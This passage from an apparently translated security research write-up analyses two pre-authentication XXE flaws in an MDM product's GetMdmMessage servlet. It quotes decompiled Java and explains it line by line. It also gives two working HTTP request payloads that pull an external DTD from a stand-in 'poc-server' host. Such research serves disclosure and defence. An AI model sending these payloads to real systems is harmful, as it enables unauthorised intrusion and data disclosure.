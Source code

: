 - 行 [20]：如果上述检查通过，则解析用户提供的数据，从而触发 XXE。  
  
按照这个逻辑，通过发送以下请求就可以触发第一个 XXE：  
  
```
POST/mdm/checkin HTTP/1.1Host: targetContent-Type: application/xmlContent-Length: 129<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY % foo SYSTEM "http://poc-server/watchTowr.dtd">%foo;]>
```  
  
  
我们迅速返回一个带有空白响应的 HTTP 200，并立即尝试/watchTowr.dtd从攻击者控制的服务器获取：  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeGcp41j21ia6ugLOgA4BIrW1fz2ajERsDOs5y1sIADJRopwKYx85Tx5yTvh1Zrn5NQCjZ415MK48A/640?wx_fmt=png&from=appmsg "")  
  
此请求包含我们最喜欢的 XXE 成功指标之一，即一个明显的 Java User-Agent，证明我们已成功触发该漏洞：  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeGcp41j21ia6ugLOgA4BIrW05dCbeST0zl8VoWwL2h7Nhe6eQ3BDDocDW4UZhib0evWRHMPQ1OpQCw/640?wx_fmt=png&from=appmsg "")  
  
砰！教科书XXE。  
  
我们并不满意这确实是我们要进行的漏洞研究，因此我们继续寻找更多......  
  
第一个 t秒预授权 XXE，但不同  
  
第二个 Pre-Auth XXE 漏洞发生在同一方法中，但在不同的行上  
  
```
com.ilient.mdm.GetMdmMessage#doPost
```  
  
  
在第 3 行[21]， POST 请求中用户提供的数据再次被解析，PropertyListParser.parse且没有经过任何清理，从而导致另一个 XXE：  
  
```
1: publicvoid doPost(HttpServletRequest httpServletRequest, HttpServletResponse httpServletResponse) {2: String requestURI = httpServletRequest.getRequestURI();3: String stringBuffer = httpServletRequest.getRequestURL().toString();4: if (IlientConf.getInstance().getConf().getLoadAccountsOnDemand()) {5: stringBuffer = stringBuffer.replace("http:", "https:");6: }7: String accountIDFromURL = Helper.getAccountIDFromURL(stringBuffer, Services.getInstance(getServletContext()));8: if (stringBuffer.lastIndexOf("/mdm/") > 0) {9: this.f1371a = stringBuffer.substring(0, stringBuffer.lastIndexOf("/") + 1);10: } else {11: this.f1371a = stringBuffer.substring(0, stringBuffer.lastIndexOf("/mobile")) + "/mdm/";12: }13: [..SNIP..]14: 15: 16: } elseif (requestURI.endsWith("serverurl")) {17: newString(byteArray);18: IlientConf.logger.debug("GetMdmMessage 8: SERVER_URL");19: // XXE vulnerability here20: 21: NSDictionary parse3 = PropertyListParser.parse(byteArray);
```  
  
  
如果我们逐行分解以下代码：  
- 行 [2]：用户提供的 URI 存储在requestURI变量中。  
  
- 行 [3]：请求 URL 存储在stringBuffer变量中。  
  
- 行 [8]：代码检查是否stringBuffer包含/mdm/路径。  
  
- 行 [16]：如果/mdm/检查通过，代码将验证是否requestURI以 结尾"serverurl"。  
  
- 行[21]：如果上述检查通过，则解析用户提供的数据，从而触发 XXE。  
  
以下请求会触发该漏洞  
  
```
POST/mdm/serverurl HTTP/1.1Host: targetContent-Type: application/xmlContent-Length: 129<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY % foo SYSTEM "http://poc-server/watchTowr.dtd">%foo;]>
```  
  
